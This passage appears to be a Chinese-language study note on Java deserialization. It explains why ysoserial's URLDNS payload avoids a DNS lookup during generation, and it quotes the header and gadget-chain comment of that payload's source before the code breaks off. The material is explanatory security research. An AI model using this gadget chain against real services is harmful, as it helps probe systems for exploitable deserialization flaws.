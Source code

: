 ![image-20220427234834643](README/image-20220427234834643.png)

至于`ysoserial`里面为啥就能直接put？注意看他为了防止生成payload的 时候也进行dns查询，重写了一个`SilentURLStreamHandler`类，改写了`getHostAddress`，put一个url到hashMap中时，不会真正触发dns查询请求。

```java
package ysoserial.payloads;

import java.io.IOException;
import java.net.InetAddress;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;
import java.net.URL;

import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;

/**
 * A blog post with more details about this gadget chain is at the url below:
 * https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/
 * <p>
 * This was inspired by Philippe Arteau @h3xstream, who wrote a blog
 * posting describing how he modified the Java Commons Collections gadget
 * in ysoserial to open a URL. This takes the same idea, but eliminates
 * the dependency on Commons Collections and does a DNS lookup with just
 * standard JDK classes.
 * <p>
 * The Java URL class has an interesting property on its equals and
 * hashCode methods. The URL class will, as a side effect, do a DNS lookup
 * during a comparison (either equals or hashCode).
 * <p>
 * As part of deserialization, HashMap calls hashCode on each key that it
 * deserializes, so using a Java URL object as a serialized key allows
 * it to trigger a DNS lookup.
 * <p>
 * Gadget Chain:
 * HashMap.readObject()
 * HashMap.putVal()
 * HashMap.hash()
 * URL.hashCode()
 */
@SuppressWarnings({ "rawtypes", "unchecked" })
@PayloadTest(skip = "true")
```